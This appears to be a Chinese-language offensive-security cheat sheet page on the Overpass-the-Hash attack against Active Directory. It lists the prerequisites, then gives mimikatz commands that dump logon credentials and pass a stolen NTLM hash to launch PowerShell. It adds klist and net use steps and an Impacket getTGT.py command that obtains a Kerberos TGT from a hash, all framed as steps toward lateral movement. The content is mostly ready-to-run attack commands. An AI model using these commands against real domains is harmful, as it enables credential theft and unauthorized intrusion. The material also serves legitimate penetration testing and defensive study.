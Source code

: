 ```yaml
---
description: 适用于当前目标环境不允许使用NTLM进行身份验证 / 需要切换到用Kerberos票据认证
---
```


# ✔️ 绕过哈希 - Overpass The Hash

## 先决条件

* 需要获得目标用户账户的NTLM哈希
* 需要至少在目标域中已建立了基本立足点
* 目标域必须支持Kerberos身份验证机制
* 目标域禁止了NTLM身份验证机制

## 常用工具

### mimikatz.exe

```powershell
mimikatz.exe
# 获取当前用户账户的NTLM哈希
sekurlsa::logonpasswords
# 利用输出信息中的NTLM字段中的哈希值进行接下来的绕过哈希攻击(此处指定运行powershell程序)
sekurlsa::pth /user:用户名 /domain:target.com /ntlm:e3fh34..........4059hd /run:powershell.exe
```

```powershell
# 检查缓存的Kerberos票据
klist
# 如果没有任何票据信息的输出，则意味着当前的用户没有向域控进行过身份验证，所以只要登录依次就可以了
net use \\dc01
klist
# 从输出的票据中查看获取到的TGT/TGS票据，接下来可以横向移动了
```

### Impacket

* 常用脚本：**getTGT.py**

```bash
# [域名/用户名@域控]
python3 getTGT.py target.com/administrator@dc01.target.com -hashes :e3fh34..........4059hd
```

## 攻击步骤

* 使用mimikatz或者本地提权来获取到当前用户账户的NTLM哈希
* 使用mimikatz通过已获取的NTLM哈希来请求Kerberos认证服务，获取Kerberos TGT票据
* 使用 Kerberos TGT进行身份验证，借此来进行横向移动或者访问其他服务

{% hint style="info" %}
* 绕过哈希攻击的核心是滥用目标用户账户的NTLM哈希以获取到Kerberos TGT票据，从而绕过NTLM身份验证机制，直接使用Kerberos票据进行身份认证，并借此在目标内网中进行横向移动或者访问其他服务。其本质是绕过了哈希认证，转而使用了票据认证。
{% endhint %}
